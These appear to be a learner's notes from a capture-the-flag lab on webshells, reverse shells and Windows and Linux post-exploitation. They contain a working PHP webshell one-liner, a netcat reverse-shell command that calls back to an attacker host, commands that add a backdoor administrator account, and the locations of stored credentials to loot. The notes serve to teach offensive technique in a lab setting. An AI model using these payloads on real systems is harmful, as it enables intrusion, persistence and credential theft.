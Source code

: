 






## Task 11 

"Webshell" is a colloquial term for a script that runs inside a webserver (usually in a language such as PHP or ASP) which executes code on the server. Essentially, commands are entered into a webpage -- either through a HTML form, or directly as arguments in the URL -- which are then executed by the script, with the results returned and written to the page. This can be extremely useful if there are firewalls in place, or even just as a stepping stone into a fully fledged reverse or bind shell.


- PHP: `<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>` this will take a GET request in the url and execute it on the system shell_exec(), any commands entered after `?cmd=` will be run
- website: `10.10.84.199/uploads/shell.php?cmd=ifconfig` the ifconfig will run





## Task 12

On Linux ideally we would be looking for opportunities to gain access to a user account. SSH keys stored at `/home/<user>/.ssh `are often an ideal way to do this.
In CTFs its a way to find credentials. 


On Windows the options are often more limited. It's sometimes possible to find passwords for running services in the registry. VNC servers, for example, frequently leave passwords in the registry stored in plaintext. Some versions of the FileZilla FTP server also leave credentials in an XML file at C:\Program Files\FileZilla Server\FileZilla Server.xml or C:\xampp\FileZilla Server\FileZilla Server.xml. These can be MD5 hashes or in plaintext, depending on the version.

it's possible to simply add your own account (in the administrators group) to the machine, then log in over RDP, telnet, winexe, psexec, WinRM or any number of other methods, dependent on the services running on the box.

- syntax: `net user <username> <password> /add`
- syntax: `net localgroup administrators <username> /add`

Reverse and Bind shells are an essential technique for gaining remote code execution on a machine, however, they will never be as fully featured as a native shell. 








## Task 13 

- Try uploading a webshell to the Linux box, then use the command: nc <LOCAL-IP> <PORT> -e /bin/bash to send a reverse shell back to a waiting listener on your own machine.

- Navigate to /usr/share/webshells/php/php-reverse-shell.php in Kali and change the IP and port to match your tun0 IP with a custom port. Set up a netcat listener, then upload and activate the shell.

